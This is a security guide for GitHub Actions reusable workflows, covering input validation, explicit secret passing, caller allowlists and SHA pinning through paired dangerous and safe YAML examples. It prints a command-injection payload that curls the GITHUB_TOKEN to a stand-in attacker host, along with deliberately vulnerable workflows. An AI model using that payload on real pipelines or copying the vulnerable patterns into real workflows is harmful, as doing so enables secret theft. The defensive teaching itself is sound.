

# Reusable Workflow Security

Reusable workflows centralize logic but inherit the caller's security context. Unvalidated inputs, unrestricted callers, or unpinned workflow references create privilege escalation vectors and supply chain risks.

!!! danger "The Risk"

    Reusable workflows execute with the caller's GITHUB_TOKEN permissions and secret access. An attacker who controls workflow inputs can inject commands, exfiltrate secrets, or escalate privileges. Unpinned workflow references allow supply chain attacks when upstream workflows are compromised.

## Reusable Workflow Security Model

Reusable workflows inherit security context from the caller but must defend against malicious inputs and unauthorized callers.



## Secure Input Handling

Reusable workflow inputs are user-controlled data. Validate all inputs before use in shell commands or scripts.

### Input Types and Validation

GitHub Actions supports typed inputs with validation.

**Available Types**: `string`, `number`, `boolean`, `choice`, `environment`

**Validation**: Type checking, required fields, choice restrictions

### Dangerous: Unvalidated String Input

```yaml
# .github/workflows/reusable-deploy.yml
# DO NOT USE - COMMAND INJECTION VULNERABILITY
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: string

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      # DANGER: No input validation, allows command injection
      - run: ./scripts/deploy.sh ${{ inputs.environment }}
```

**Attack Vector**:

Caller passes `production; curl attacker.com?token=$GITHUB_TOKEN`

Command executes: `./scripts/deploy.sh production; curl attacker.com?token=$GITHUB_TOKEN`

Token exfiltrated to attacker server.

### Safe: Choice Input with Validation

```yaml
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: choice
        options:
          - dev
          - staging
          - production

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: ${{ inputs.environment }}
    steps:
      # Safe: choice type restricts to valid values
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - name: Deploy to environment
        run: ./scripts/deploy.sh ${{ inputs.environment }}
```

### Safe: String Input with Runtime Validation

```yaml
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: string
        description: 'Deployment environment (dev, staging, production)'

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - name: Validate environment input
        run: |
          case "${{ inputs.environment }}" in
            dev|staging|production)
              echo "Valid environment: ${{ inputs.environment }}"
              ;;
            *)
              echo "::error::Invalid environment. Allowed: dev, staging, production"
              exit 1
              ;;
          esac

      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - name: Deploy to environment
        env:
          ENVIRONMENT: ${{ inputs.environment }}
        run: ./scripts/deploy.sh "$ENVIRONMENT"
```

**Key Improvements**:

1. Runtime validation with allowlist
2. Error and exit on invalid input
3. Pass via environment variable to prevent injection
4. Quote variables in shell commands

### Input Validation Patterns

| Input Type | Use Case | Validation Strategy |
| ---------- | -------- | ------------------- |
| `choice` | Fixed set of values | GitHub validates automatically |
| `string` | Free-form text | Runtime validation with allowlist or regex |
| `number` | Numeric values | Type validation + range checking |
| `boolean` | True/false flags | Type validated, safe for conditionals |
| `environment` | Environment names | GitHub validates against repository environments |

### Complex Input Validation Example

```yaml
# .github/workflows/reusable-release.yml
name: Reusable Release
on:
  workflow_call:
    inputs:
      version:
        required: true
        type: string
        description: 'Semantic version (e.g., v1.2.3)'
      prerelease:
        required: false
        type: boolean
        default: false
      deploy:
        required: false
        type: boolean
        default: true

permissions:
  contents: write
  id-token: write

jobs:
  validate:
    runs-on: ubuntu-latest
    outputs:
      valid: ${{ steps.check.outputs.valid }}
    steps:
      - name: Validate version format
        id: check
        run: |
          VERSION="${{ inputs.version }}"

          # Validate semantic version format
          if [[ ! "$VERSION" =~ ^v[0-9]+\.[0-9]+\.[0-9]+(-[a-zA-Z0-9]+)?$ ]]; then
            echo "::error::Invalid version format. Expected: vX.Y.Z or vX.Y.Z-prerelease"
            exit 1
          fi

          echo "valid=true" >> $GITHUB_OUTPUT

  release:
    runs-on: ubuntu-latest
    needs: validate
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - name: Create release
        env:
          VERSION: ${{ inputs.version }}
          PRERELEASE: ${{ inputs.prerelease }}
          GH_TOKEN: ${{ github.token }}
        run: |
          PRERELEASE_FLAG=""
          if [ "$PRERELEASE" = "true" ]; then
            PRERELEASE_FLAG="--prerelease"
          fi

          gh release create "$VERSION" $PRERELEASE_FLAG \
            --title "Release $VERSION" \
            --generate-notes

  deploy:
    runs-on: ubuntu-latest
    needs: release
    if: inputs.deploy == true
    environment: production
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - name: Deploy release
        env:
          VERSION: ${{ inputs.version }}
        run: ./scripts/deploy-release.sh "$VERSION"
```

## Secret Inheritance Patterns

Reusable workflows can receive secrets explicitly or inherit all secrets. Always prefer explicit secret passing.

### Dangerous: `secrets: inherit`

```yaml
# Caller workflow
jobs:
  deploy:
    uses: ./.github/workflows/reusable-deploy.yml@b4ffde65f46336ab88eb53be808477a3936bae11
    with:
      environment: production
    secrets: inherit  # DANGEROUS: Passes all secrets
```

**Risk**: Reusable workflow has access to ALL repository and organization secrets, including unrelated credentials.

**Attack Vector**: If reusable workflow is compromised, attacker can exfiltrate all secrets.

### Safe: Explicit Secret Passing

```yaml
# Reusable workflow
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: choice
        options: [dev, staging, production]
    secrets:
      wif_provider:
        required: true
        description: 'GCP Workload Identity Federation provider'
      wif_service_account:
        required: true
        description: 'GCP service account for deployment'

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: ${{ inputs.environment }}
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.wif_provider }}
          service_account: ${{ secrets.wif_service_account }}

      - run: ./scripts/deploy.sh ${{ inputs.environment }}
```

```yaml
# Caller workflow
# .github/workflows/deploy.yml
name: Deploy
on:
  push:
    branches: [main]

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    uses: ./.github/workflows/reusable-deploy.yml@b4ffde65f46336ab88eb53be808477a3936bae11
    with:
      environment: production
    secrets:
      wif_provider: ${{ secrets.WIF_PROVIDER }}
      wif_service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}
      # Only deployment secrets passed, not all secrets
```

**Key Improvements**:

1. Reusable workflow declares required secrets
2. Caller explicitly passes only needed secrets
3. Blast radius limited to deployment credentials
4. Clear documentation of secret requirements

### Secret Inheritance Comparison

| Method | Risk Level | Use Case |
| ------ | ---------- | -------- |
| `secrets: inherit` | High | Avoid. Only for trusted internal workflows with full secret access requirement |
| Explicit secrets | Low | Always prefer. Pass only required secrets |
| No secrets + OIDC | Minimal | Best practice. Use OIDC federation instead of stored secrets |

## Caller Validation

Restrict which repositories can call reusable workflows to prevent unauthorized usage.

### Unrestricted Caller (Default Behavior)

```yaml
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    # No caller restrictions
```

**Risk**: ANY repository in the organization or public workflows can call this workflow.

**Attack Vector**: Attacker forks repository, calls privileged reusable workflow with malicious inputs.

### Restricted Caller with Runtime Validation

```yaml
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: choice
        options: [dev, staging, production]

permissions:
  contents: read
  id-token: write

jobs:
  validate-caller:
    runs-on: ubuntu-latest
    steps:
      - name: Validate caller repository
        run: |
          ALLOWED_REPOS=(
            "org/service-a"
            "org/service-b"
            "org/service-c"
          )

          CALLER_REPO="${{ github.repository }}"

          for repo in "${ALLOWED_REPOS[@]}"; do
            if [[ "$CALLER_REPO" == "$repo" ]]; then
              echo "Authorized caller: $CALLER_REPO"
              exit 0
            fi
          done

          echo "::error::Unauthorized caller: $CALLER_REPO"
          exit 1

  deploy:
    runs-on: ubuntu-latest
    needs: validate-caller
    environment: ${{ inputs.environment }}
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - run: ./scripts/deploy.sh ${{ inputs.environment }}
```

### Organization-Level Caller Validation

```yaml
# .github/workflows/reusable-security-scan.yml
name: Reusable Security Scan
on:
  workflow_call:

permissions:
  contents: read
  security-events: write

jobs:
  validate-caller:
    runs-on: ubuntu-latest
    steps:
      - name: Validate organization membership
        run: |
          CALLER_REPO="${{ github.repository }}"
          CALLER_ORG="${CALLER_REPO%%/*}"
          ALLOWED_ORG="your-org"

          if [[ "$CALLER_ORG" != "$ALLOWED_ORG" ]]; then
            echo "::error::Only $ALLOWED_ORG repositories can use this workflow"
            exit 1
          fi

  scan:
    runs-on: ubuntu-latest
    needs: validate-caller
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: aquasecurity/trivy-action@84384bd6e777ef152729993b8145ea352e9dd3ef  # 0.17.0
        with:
          scan-type: 'fs'
          format: 'sarif'
          output: 'trivy-results.sarif'

      - uses: github/codeql-action/upload-sarif@cdcdbb579706841c47f7063dda365e292e5cad7a  # v2.13.4
        with:
          sarif_file: 'trivy-results.sarif'
```

## Pinning Reusable Workflows

Always pin reusable workflow references to full SHA to prevent supply chain attacks.

### Dangerous: Branch or Tag Reference

```yaml
# DO NOT USE - SUPPLY CHAIN RISK
jobs:
  deploy:
    uses: org/workflows/.github/workflows/deploy.yml@main
    # RISK: 'main' branch can be modified with malicious code
```

**Attack Vector**:

1. Attacker compromises upstream repository
2. Modifies workflow on `main` branch to exfiltrate secrets
3. All callers automatically use compromised workflow
4. Secrets stolen from all repositories

### Safe: SHA-Pinned Reference

```yaml
jobs:
  deploy:
    uses: org/workflows/.github/workflows/deploy.yml@a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6q7r8s9t0  # v1.2.3
    with:
      environment: production
    secrets:
      wif_provider: ${{ secrets.WIF_PROVIDER }}
      wif_service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}
```

**SHA Pinning Benefits**:

1. Immutable reference to specific workflow version
2. Prevents supply chain attacks from upstream modifications
3. Version comment for readability
4. Dependabot can update to new SHAs automatically

### Local Reusable Workflow Pinning

For reusable workflows in the same repository, pin to SHA for production workflows.

**Development**: Can use relative path

```yaml
jobs:
  test:
    uses: ./.github/workflows/reusable-test.yml
    # Same repository, current commit
```

**Production**: Pin to SHA

```yaml
jobs:
  deploy:
    uses: ./.github/workflows/reusable-deploy.yml@b4ffde65f46336ab88eb53be808477a3936bae11  # v1.2.3
    with:
      environment: production
```

### Dependabot Configuration for Reusable Workflows

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
    groups:
      reusable-workflows:
        patterns:
          - "org/workflows/*"
        update-types:
          - "minor"
          - "patch"
```

Dependabot will create PRs to update reusable workflow SHAs automatically.

## Complete Secure Reusable Workflow Example

```yaml
# .github/workflows/reusable-deploy-secure.yml
name: Secure Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: choice
        options:
          - dev
          - staging
          - production
        description: 'Target deployment environment'
      version:
        required: true
        type: string
        description: 'Deployment version (semantic version format)'
    secrets:
      wif_provider:
        required: true
        description: 'GCP Workload Identity Federation provider'
      wif_service_account:
        required: true
        description: 'GCP service account for deployment'
      slack_webhook:
        required: false
        description: 'Slack webhook for deployment notifications'

permissions:
  contents: read
  id-token: write

jobs:
  validate:
    runs-on: ubuntu-latest
    steps:
      - name: Validate caller repository
        run: |
          ALLOWED_REPOS=(
            "org/service-frontend"
            "org/service-backend"
            "org/service-api"
          )

          CALLER_REPO="${{ github.repository }}"

          for repo in "${ALLOWED_REPOS[@]}"; do
            if [[ "$CALLER_REPO" == "$repo" ]]; then
              echo "Authorized caller: $CALLER_REPO"
              exit 0
            fi
          done

          echo "::error::Unauthorized caller: $CALLER_REPO"
          echo "::error::Allowed repositories: ${ALLOWED_REPOS[*]}"
          exit 1

      - name: Validate version format
        run: |
          VERSION="${{ inputs.version }}"

          if [[ ! "$VERSION" =~ ^v[0-9]+\.[0-9]+\.[0-9]+(-[a-zA-Z0-9\.]+)?$ ]]; then
            echo "::error::Invalid version format: $VERSION"
            echo "::error::Expected format: vX.Y.Z or vX.Y.Z-prerelease"
            exit 1
          fi

          echo "Valid version: $VERSION"

  deploy:
    runs-on: ubuntu-latest
    needs: validate
    environment: ${{ inputs.environment }}
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.wif_provider }}
          service_account: ${{ secrets.wif_service_account }}

      - name: Deploy to environment
        env:
          ENVIRONMENT: ${{ inputs.environment }}
          VERSION: ${{ inputs.version }}
        run: |
          echo "Deploying $VERSION to $ENVIRONMENT"
          ./scripts/deploy.sh "$ENVIRONMENT" "$VERSION"

      - name: Notify deployment
        if: always() && secrets.slack_webhook != ''
        env:
          SLACK_WEBHOOK: ${{ secrets.slack_webhook }}
          ENVIRONMENT: ${{ inputs.environment }}
          VERSION: ${{ inputs.version }}
          STATUS: ${{ job.status }}
        run: |
          curl -X POST "$SLACK_WEBHOOK" \
            -H 'Content-Type: application/json' \
            -d "{\"text\":\"Deployment $STATUS: $VERSION to $ENVIRONMENT\"}"
```

**Caller Workflow**:

```yaml
# .github/workflows/deploy.yml
name: Deploy
on:
  push:
    branches: [main]
    tags: ['v*']

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    uses: org/workflows/.github/workflows/reusable-deploy-secure.yml@a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6q7r8s9t0  # v2.1.0
    with:
      environment: production
      version: ${{ github.ref_name }}
    secrets:
      wif_provider: ${{ secrets.WIF_PROVIDER }}
      wif_service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}
      slack_webhook: ${{ secrets.SLACK_WEBHOOK }}
```

**Security Features**:

1. Choice input for environment with fixed values
2. String input with regex validation for version
3. Explicit secret passing (no `secrets: inherit`)
4. Caller repository allowlist validation
5. SHA-pinned workflow reference in caller
6. Environment protection gates
7. OIDC authentication (no stored cloud credentials)
8. Minimal GITHUB_TOKEN permissions

## Security Best Practices

1. **Always pin to SHA**: Never use branch or tag references for reusable workflows in production
2. **Validate all inputs**: Use `choice` type or runtime validation for string inputs
3. **Explicit secrets only**: Avoid `secrets: inherit`, declare required secrets explicitly
4. **Restrict callers**: Validate `github.repository` to allowlist authorized callers
5. **Minimal permissions**: Declare minimal `permissions` block in reusable workflow
6. **Environment protection**: Use environment gates for deployment workflows
7. **Prefer OIDC**: Use Workload Identity Federation instead of stored secrets
8. **Document requirements**: Clear descriptions for inputs and secrets
9. **Audit usage**: Monitor which repositories call shared workflows
10. **Version workflows**: Tag reusable workflows with semantic versions

## Common Mistakes

### Mistake 1: Unpinned Workflow Reference

**Problem**: Branch reference allows supply chain attacks

```yaml
# DANGEROUS
jobs:
  deploy:
    uses: org/workflows/.github/workflows/deploy.yml@main
```

**Fix**: Pin to SHA

```yaml
jobs:
  deploy:
    uses: org/workflows/.github/workflows/deploy.yml@a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6q7r8s9t0  # v1.2.3
```

### Mistake 2: Unvalidated String Input

**Problem**: Command injection via unvalidated input

```yaml
# DANGEROUS
on:
  workflow_call:
    inputs:
      command:
        type: string
jobs:
  run:
    steps:
      - run: ${{ inputs.command }}
```

**Fix**: Validate input or use choice type

```yaml
on:
  workflow_call:
    inputs:
      task:
        type: choice
        options: [build, test, deploy]
jobs:
  run:
    steps:
      - name: Validate task
        run: |
          case "${{ inputs.task }}" in
            build|test|deploy) ;;
            *) exit 1 ;;
          esac
      - run: ./scripts/${{ inputs.task }}.sh
```

### Mistake 3: Using `secrets: inherit`

**Problem**: Excessive secret exposure

```yaml
# DANGEROUS
jobs:
  deploy:
    uses: ./.github/workflows/reusable-deploy.yml@main
    secrets: inherit
```

**Fix**: Explicit secret passing

```yaml
jobs:
  deploy:
    uses: ./.github/workflows/reusable-deploy.yml@a1b2c3d4e5f6
    secrets:
      deploy_key: ${{ secrets.DEPLOY_KEY }}
```

### Mistake 4: No Caller Validation

**Problem**: Any repository can call workflow

**Fix**: Add caller allowlist

```yaml
jobs:
  validate:
    steps:
      - run: |
          if [[ "${{ github.repository }}" != "org/allowed-repo" ]]; then
            exit 1
          fi
```

## Troubleshooting

| Issue | Cause | Solution |
| ----- | ----- | -------- |
| Workflow not found | Incorrect path or SHA | Verify workflow exists at `.github/workflows/` in referenced commit |
| Input validation failed | Invalid input format | Check input against validation rules in reusable workflow |
| Secret not available | Secret not passed or wrong name | Verify secret name matches between caller and reusable workflow |
| Caller validation failed | Repository not in allowlist | Add repository to allowed repositories list |
| Permission denied | Insufficient GITHUB_TOKEN permissions | Check `permissions` block in both caller and reusable workflow |
| Environment protection blocks | Missing approval or branch policy | Configure environment protection rules or approve deployment |

## Quick Reference

### Input Type Selection

| Input Data | Type | Validation |
| ---------- | ---- | ---------- |
| Fixed set of values | `choice` | Automatic |
| Environment name | `environment` | GitHub validates |
| Free text | `string` | Runtime validation required |
| Version number | `string` | Regex validation |
| Feature flag | `boolean` | Type validated |
| Count/index | `number` | Range validation |

### Secret Passing Patterns

| Pattern | Risk | Use Case |
| ------- | ---- | -------- |
| No secrets | Minimal | OIDC-only workflows |
| Explicit secrets | Low | Production workflows |
| `secrets: inherit` | High | Trusted internal workflows only |

### Reusable Workflow Security Checklist

- [ ] Workflow pinned to SHA in caller (not branch/tag)
- [ ] All string inputs validated with allowlist or regex
- [ ] Secrets passed explicitly (no `secrets: inherit`)
- [ ] Caller repository validated against allowlist
- [ ] Minimal `permissions` block declared
- [ ] Environment protection for deployments
- [ ] OIDC preferred over stored secrets
- [ ] Input and secret requirements documented
- [ ] Version tag added for tracking
- [ ] Dependabot configured for updates

## Related Pages

- [Workflow Trigger Security](./triggers.md) - `workflow_call` vs other triggers, event security
- [Environment Protection Patterns](./environments.md) - Deployment gates for reusable workflows
- [Token Permissions](../token-permissions/index.md) - Permission inheritance in reusable workflows
- [Secret Management](../secrets/index.md) - Secret scoping and OIDC patterns
- [Action Pinning](../action-pinning/sha-pinning.md) - SHA pinning strategy for dependencies
